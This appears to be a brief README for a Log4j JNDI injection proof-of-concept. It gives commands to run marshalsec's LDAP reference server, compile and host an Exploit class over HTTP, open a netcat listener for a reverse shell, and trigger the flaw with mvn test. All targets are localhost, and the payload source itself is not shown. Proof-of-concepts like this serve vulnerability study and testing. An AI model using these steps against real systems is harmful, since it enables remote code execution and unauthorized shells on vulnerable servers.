 # jndi/log4j-poc
How to set up marshalsec's LDAP provider server:
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit

How to set up web server hosting RCE payload:
cd exploit_class
javac Exploit.java #saved in Exploit.class
python3 -m http.server 80

Exploit.java sends a webshell to localhost port 1234.

Finally, nc -lvp 1234 and run mvn test.
